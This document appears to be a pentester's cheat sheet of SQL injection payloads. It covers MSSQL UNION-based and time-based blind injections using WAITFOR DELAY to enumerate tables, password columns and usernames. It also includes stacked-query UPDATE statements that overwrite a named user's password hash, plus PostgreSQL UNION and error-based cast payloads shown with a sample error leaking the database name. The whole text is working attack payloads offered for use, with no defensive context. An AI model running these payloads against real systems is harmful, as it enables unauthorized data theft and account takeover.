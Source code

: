 - mssqli UNION-based Payloads
```bash
# check number of the column
' UNION ALL select 1, 2 --
' UNION select 1, 2 --;
```

- mssqli Blind SQL Injections
```bash
# check if its working
'; IF (1=1) WAITFOR DELAY '0:0:10';--
'; IF (1=2) WAITFOR DELAY '0:0:10';--

'; IF ((select count(name) from sys.tables where name = 'user')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--

# we blindly verify that there is a column named USERNAME in the table USERS.
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user%')=1) WAITFOR DELAY '0:0:10';--

# figure out the name of the column holding the password
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'password')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'passw%')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'password_hash')=1) WAITFOR DELAY '0:0:10';--

# find username
USERNAME like 'a%', USERNAME like 'b%', USERNAME like 'c%'
'; IF ((select count(username) from users where username = 'butch')=1) WAITFOR DELAY '0:0:10';--

# update password
'; update users set password_hash = 'tacos123' where username = 'butch';--
'; update users set password_hash = '6183c9c42758fa0e16509b384e2c92c8a21263afa49e057609e3a7fb0e8e5ebb' where username = 'butch';--

# check if password has been updated
'; IF ((select count(username) from users where username = 'butch' and password_hash = 'tacos123')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(username) from users where username = 'butch' and password_hash = '6183c9c42758fa0e16509b384e2c92c8a21263afa49e057609e3a7fb0e8e5ebb')=1) WAITFOR DELAY '0:0:10';--
```

- postgresql command injection
```bash
' order by 7 -- //
' union select 1, 1, 1, 1, 1, 1 -- //
' union select 'd', 1, 1, 'd', 'd', null -- //

# Current user
' union select 'd', cast((SELECT concat('DATABASE: ',current_user)) as int), 1, 'd', 'd', null -- //

# Use cast to cause error to get the database
' union select 'd', cast((SELECT concat('DATABASE: ',current_database())) as int), 1, 'd', 'd', null -- //
## ERROR
<b>Warning</b>:  pg_query(): Query failed: ERROR:  invalid input syntax for type integer: &quot;DATABASE: glovedb&quot; in <b>/var/www/html/class.php</b> on line <b>423</b><br />

# Use case to find out tables
cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int)
```